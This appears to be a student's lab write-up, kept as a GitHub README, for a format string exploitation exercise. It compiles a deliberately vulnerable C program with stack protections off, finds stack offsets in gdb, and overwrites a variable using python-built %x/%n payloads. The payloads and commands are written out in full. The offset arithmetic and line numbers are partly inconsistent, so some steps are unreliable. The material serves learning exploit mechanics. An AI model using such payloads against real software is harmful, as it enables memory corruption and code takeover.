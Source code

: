 # sec_engineering_exercises

## Format string exploitation example (Section 2.5)
1. Create a c file like, for example with vi: `vi vuln_s.c`
   Content for the file: [vuln_s.c](vuln_s.c) 

2. Set environment flags
```
    export CFLAGS="-m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g -std=c99"
```
3. Compile the file with GCC to create an executable object
```
    gcc -g -o vuln vuln_s.c -m32 -fno-stack-protector -z execstack -fno-pie -no-pie -std=c99
```
or with flags (flgas dont work for me so I compliled with above)
```
   gcc -g -o vuln vuln_s.c $CFLAGS
```
4. Execute the file to ensure its working
```
   ./vuln test
```
Expected output: ![Alt text](image.png)

5. Open program in debugger
```
    gdb vuln
```
   Check the file was complied correctly for the debugger by running
   ```
      list
   ```
   You should see your code when you run that, if you don't something with flags went wrong.
   
6. Run the program with '%x' which will return data from the stack - the hexadecimal value of the stack
```
    run %x
```
Expected output: ![Alt text](/ref/image-1.png)

7. Add a breakpoint at line 14 (where the call is made from the **main** function to the **vuln** function)
```
    break 7
```
8. Run the program again
```
    run %x
```
Expected output:![Alt text](image-2.png)

9. Check the content on the %esp registers by running
```
    x/100x $esp
```
Should return: ![Alt text](image-3.png)

10. So the **str** is located that **0xbffff789** and the '**%x'** value **(0x4020e3fc)** at **0xbffff550**
    The distance between str and %x is **0xbffff789 - 0xbffff550 = 569** (https://www.calculator.net/hex-calculator.html?number1=bffff789&c2op=-&number2=bffff550&calctype=op&x=50&y=20)
    We want a number that is divisible by 4 (4 bytes) so will round 569 to 572 and then 572 / 4 = 143
    That means that the **'target'** variable is around 143 positions away from the start of the stack (in the bss section)
    We can run a command that will bring us hexadecimal values up 143 stack positions

11. **Try and fail**
    Start the new debugging of the program so you are not stopped by the break (there must be a way to remove the break ;)) (Use 'q' to quit and then start from fresh)
    `gdb vuln`
    Try 143 spaces and see if you can see **414141** (representation of AAAA) (the number might be different for you depending on the distance)
```
     run `(python -c 'print "AAAA" + ".%x." * 143+"%x"')`
```

The output will be something like this: ![Alt text](image-4.png)
    
Next I try to increase 143 to 146

```
     run `(python -c 'print "AAAA" + ".%x." * 146+"%x"')`
```
Output: ![Alt text](image-5.png)

Ok, I can now see the hexadecimal representation of AAAA but it is not at the end of the output, I need to get rid of the '00' so that my last 4bits point exactly to AAAA

Try with adding extra padding (BB):
```
    run `(python -c 'print "AAAA" +"BBB"+ "%x." * 146+"%x"')`
```
   ![Alt text](image-8.png)

   Note: I just rerun that and my working command looked like this:
```
   run `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
```
 and the distance calculation was 141 so I guess it is always slightly different but close enough

![image](https://github.com/osuzuki/sec_engineering_exercises/assets/8805399/ef7206d2-c61b-4c37-b1ac-513b8251635c)

   
My pointer is now pointing to the hexadecimal representation of 'AAAA' exactly 
```
(gdb)      run `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
Starting program: /home/olg4/learning/week22/vuln `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
AAAABB4020e000.0.4006920b.4020e3fc.0.bffff378.80484e7.bffff580.bffff424.bffff430.8048521.4000f9d0.bffff390.0.40051e91.4020e000.4020e000.0.40051e91.2.bffff424.bffff430.bffff3b4.1.0.4020e000.4000f77a.40027000.0.4020e000.0.0.851c2a68.70c7ad97.0.0.0.2.8048370.0.40014dc0.4000f9d0.804a000.2.8048370.0.80483a2.80484c3.2.bffff424.8048500.8048560.4000f9d0.bffff41c.40027940.2.bffff560.bffff580.0.bffff736.bffff749.bffffd35.bffffd69.bffffd8b.bffffd9a.bffffda7.bffffdc2.bffffe0d.bffffe20.bffffe2a.bffffe49.bffffe52.bffffe62.bffffe84.bffffec5.bffffed8.bffffee4.bffffef8.bfffff0c.bfffff1c.bfffff24.bfffff31.bfffff50.bfffffb8.0.20.4002bb50.21.4002b000.10.1f8bfbff.6.1000.11.64.3.8048034.4.20.5.9.7.40000000.8.0.9.8048370.b.81c.c.81c.d.7d0.e.7d0.17.0.19.bffff54b.1a.0.1f.bfffffd8.f.bffff55b.0.0.0.0.d000000.859f2e13.458bbd7d.1365d6c3.69e5b851.363836.6d6f682f.6c6f2f65.6c2f3467.6e726165.2f676e69.6b656577.762f3232.6e6c75.41414141
```

12. Find the address of the 'target' variable 
- To find the target variable type:
  ```
  p &target
  ```
- The output should be:![Alt text](image-7.png)

13. Do the hack 
- Replace the 'AAAA' in the run command with the address (its read from the back for fun): in my case it is `AAAA`->`"\x28\xa0\x04\x08"`
- replace last '%x' with '%n' (x is reading and n is writing)
- run it
```
    run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
```
Note: when I re-run this my command was this:
```
run `(python -c 'print "\x28\xa0\x04\x08"+"BB" + "%x." * 143+"%n"')`
```


Output:![Alt text](image-9.png)


## Extra: see the value of target changing
- add break at line 5
- add break at line 15
- run your update command: mine was: run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
- on the first breakpoint type: `print target` - the value should be 0 
- type: '''next'''
- type: '''next'''
- `print target` - the value should be changed
![Alt text](image-10.png)


## Outstanding questions
- I still don't get the addresses and why if I change AAAA to the exact address it works




